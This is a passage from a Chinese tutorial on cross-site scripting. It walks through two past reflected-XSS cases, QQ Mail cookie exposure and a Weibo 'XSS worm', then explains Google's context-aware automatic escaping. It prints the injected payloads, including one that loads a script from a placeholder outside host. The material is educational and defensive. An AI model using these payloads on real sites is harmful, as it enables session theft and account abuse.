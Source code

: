 用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中：

<pre><code class="language-html hljs xml">&lt;span class="hljs-tag">&lt;&lt;span class="hljs-name">script&lt;/span>&gt;&lt;/span>&lt;span class="javascript">
getTop().location.href=&lt;span class="hljs-string">"/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin=aaa"&lt;/span>+&lt;span class="hljs-string">"&t="&lt;/span>+&lt;span class="hljs-string">"&d=bbbb"&lt;/span>;&lt;span class="hljs-keyword">return&lt;/span> &lt;span class="hljs-literal">false&lt;/span>;&lt;/span>&lt;span class="hljs-tag">&lt;/&lt;span class="hljs-name">script&lt;/span>&gt;&lt;/span>&lt;span class="hljs-tag">&lt;&lt;span class="hljs-name">script&lt;/span>&gt;&lt;/span>&lt;span class="javascript">alert(&lt;span class="hljs-built_in">document&lt;/span>.cookie)&lt;/span>&lt;span class="hljs-tag">&lt;/&lt;span class="hljs-name">script&lt;/span>&gt;&lt;/span>"+"...
</code></pre>

[浏览器](https://www.w3cdoc.com)接收到响应后就会执行 `alert(document.cookie)`，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全。

#### 新浪微博名人堂反射型 XSS 漏洞 {#新浪微博名人堂反射型-xss-漏洞}

攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

`http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>`

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

<pre><code class="language-html hljs xml">&lt;span class="hljs-tag">&lt;&lt;span class="hljs-name">li&lt;/span>&gt;&lt;/span>&lt;span class="hljs-tag">&lt;&lt;span class="hljs-name">a&lt;/span> &lt;span class="hljs-attr">href&lt;/span>=&lt;span class="hljs-string">"http://weibo.com/pub/star/g/xyyyd"&lt;/span>&gt;&lt;/span>&lt;span class="hljs-tag">&lt;&lt;span class="hljs-name">script&lt;/span> &lt;span class="hljs-attr">src&lt;/span>=&lt;span class="hljs-string">//xxxx.cn/image/t.js&lt;/span>&gt;&lt;/span>&lt;span class="hljs-tag">&lt;/&lt;span class="hljs-name">script&lt;/span>&gt;&lt;/span>"&gt;按分类检索&lt;span class="hljs-tag">&lt;/&lt;span class="hljs-name">a&lt;/span>&gt;&lt;/span>&lt;span class="hljs-tag">&lt;/&lt;span class="hljs-name">li&lt;/span>&gt;&lt;/span>
</code></pre>

[浏览器](https://www.w3cdoc.com)接收到响应后就会加载执行恶意脚本 `//xxxx.cn/image/t.js`，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为“XSS 蠕虫”。

## 扩展阅读：Automatic Context-Aware Escaping {#扩展阅读-automatic-context-aware-escaping}

上文[我们](https://www.w3cdoc.com)说到：

  1. 合适的 HTML 转义可以有效避免 XSS 漏洞。
  2. 完善的转义库需要针对上下文制定多种规则，例如 HTML 属性、HTML 文字内容、HTML 注释、跳转链接、内联 JavaScript 字符串、内联 CSS 样式表等等。
  3. 业务 RD 需要根据每个插入点所处的上下文，选取不同的转义规则。

通常，转义库是不能判断插入点上下文的（Not Context-Aware），实施转义规则的责任就落到了业务 RD 身上，需要每个业务 RD 都充分理解 XSS 的各种情况，并且需要保证每一个插入点使用了正确的转义规则。

这种机制工作量大，全靠人工保证，很容易造成 XSS 漏洞，安全人员也很难发现隐患。

2009年，Google 提出了一个概念叫做：[Automatic Context-Aware Escaping<i class="fa fa-link" aria-hidden="true"></i>][6]。

所谓 Context-Aware，就是说模板引擎在解析模板字符串的时候，就解析模板语法，分析出每个插入点所处的上下文，据此自动选用不同的转义规则。这样就减轻了业务 RD 的工作负担，也减少了人为带来的疏漏。


 [1]: https://www.owasp.org/index.php/OWASP_Java_Encoder_Project#tab=Use_the_Java_Encoder_Project
 [2]: https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot
 [3]: https://github.com/Arachni/arachni
 [4]: https://github.com/mozilla/http-observatory/
 [5]: https://github.com/andresriancho/w3af
 [6]: https://security.googleblog.com/2009/03/reducing-xss-by-way-of-automatic.html
 [7]: https://golang.org/pkg/html/template/
 [8]: https://developers.google.com/closure/templates/docs/security
 [9]: https://alf.nu/alert1
 [10]: http://prompt.ml/
 [11]: https://xss-game.appspot.com/
 [12]: https://en.wikipedia.org/wiki/Cross-site_scripting
 [13]: https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
 [14]: https://github.com/OWASP/owasp-java-encoder/wiki/2
 [15]: https://vuejs.org/v2/api/#v-html
 [16]: https://reactjs.org/docs/dom-elements.html#dangerouslysetinnerhtml